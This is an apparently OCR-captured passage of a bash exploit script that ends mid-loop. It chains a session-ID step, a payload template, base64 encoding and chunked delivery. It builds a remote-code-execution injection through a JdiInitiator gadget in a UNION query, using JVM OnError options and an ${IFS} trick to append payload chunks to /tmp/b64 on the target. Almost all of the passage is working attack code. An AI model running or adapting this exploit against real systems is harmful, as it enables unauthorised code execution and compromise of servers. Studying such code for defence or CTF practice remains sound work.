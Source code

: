 ```bash
echo "Successfully retrieved session ID: $SESSION_ID"
echo ""


# --- STAGE 2: GENERATE PAYLOAD SCRIPT FROM TEMPLATE ---
echo "--- Stage 2: Processing the payload template ---"

if [[ ! -r "$TEMPLATE_FILE" ]]; then
    echo "Error: The template file '$TEMPLATE_FILE' was not found or is not readable. Aborting." >&2
    exit 1
fi

sed "s/<<SESSION_ID_HERE>>/$SESSION_ID/g" "$TEMPLATE_FILE" > "$GENERATED_PAYLOAD_FILE"
echo "Generated payload script and saved it to '$GENERATED_PAYLOAD_FILE'."
echo ""


# --- STAGE 3: BASE64 ENCODE PAYLOAD & SEND IN 10 CHUNKS ---
echo "--- Stage 3: Encoding payload and triggering RCE via JdiInitiator gadget (10 chunks) ---"

if [[ ! -r "$GENERATED_PAYLOAD_FILE" ]]; then
    echo "Error: The generated payload file '$GENERATED_PAYLOAD_FILE' could not be read. Aborting." >&2
    exit 1
fi

# 1) Base64 encode without wrapping.
PAYLOAD_B64=$(base64 -w 0 "$GENERATED_PAYLOAD_FILE")
if [[ -z "$PAYLOAD_B64" ]]; then
    echo "Error: Failed to Base64 encode the payload. Aborting." >&2
    exit 1
fi

# 2) Split into 10 (approximately equal) chunks.
TOTAL_LEN=${#PAYLOAD_B64}
CHUNK_COUNT=10
CHUNK_SIZE=$(( (TOTAL_LEN + CHUNK_COUNT - 1) / CHUNK_COUNT ))  # ceil

# 3) Template for 'fields' with placeholder to swap the RCE command.
TEMPLATE_FIELDS='new jdk.jshell.execution.JdiInitiator(5, new list("-XX:OnError=id>/tmp/err.rce","-XX:OnOutOfMemoryError=id>/tmp/err2.rce","-XX:+CrashOnOutOfMemoryError","-jar /app/target/hn-1.0-SNAPSHOT-jar-with-dependencies.jar"), new java.lang.String("asdf"), true, null, 8000, new map("^" as quote,"^bash^-c^^id>/tmp/winz2^^" as home)) UNION select new jdk.jshell.execution.JdiInitiator(0, new list("a","b","c","d"), new java.lang.String("jdk.jshell.execution.RemoteExecutionControl"), true, null, 8000, new java.util.HashMap(2,2))'

echo "Total length: $TOTAL_LEN, chunk size: $CHUNK_SIZE"

for (( i=0; i<CHUNK_COUNT; i++ )); do
    START=$(( i * CHUNK_SIZE ))
    PART="${PAYLOAD_B64:$START:$CHUNK_SIZE}"
    [[ -z "$PART" ]] && { echo "No more data to send at chunk $((i+1))."; break; }

    echo ""
    echo ">>> Preparing request $((i+1))/${CHUNK_COUNT} (bytes ${START}..$((START+${#PART}-1))) (Status 500 is OK)"

    # 4) Build the RCE command for this chunk (append to /tmp/b64).
    #    \${IFS} creates a space between 'echo' and data at execution time.
    RCE_COMMAND="echo\${IFS}$PART>>/tmp/b64"

    # 5) Substitute the placeholder in the fields template.
```